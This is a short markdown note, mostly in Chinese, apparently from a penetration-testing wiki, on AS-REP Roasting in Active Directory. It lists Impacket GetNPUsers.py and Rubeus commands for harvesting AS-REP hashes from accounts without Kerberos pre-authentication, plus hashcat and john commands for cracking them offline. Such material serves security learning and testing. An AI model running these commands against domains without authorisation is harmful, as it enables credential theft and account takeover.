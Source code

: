 ```yaml
---
title: "AS-REP Roasting"
author: ["4shen0ne"]
draft: false
---
```


如果用户开启了“不使用[Kerberos]({{< relref "kerberos.md" >}})预认证”，攻击者就可以获取到 Kerberos AS-REP，经过用
户的 RC4-HMAC 密码加密过的，然后他就可以离线破解这个凭证了

With Impacket example GetNPUsers.py:

```bash
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With Rubeus:

```bash
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:

```bash
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

几种攻击手法的区别：

-   AS-REP Roasting：获取用户 hash 然后离线暴力破解
-   [Kerberoasting]({{< relref "kerberoasting.md" >}})：获取应用服务 hash 然后暴力破解
-   黄金票据：通过假冒域中不存在的用户来访问应用服务
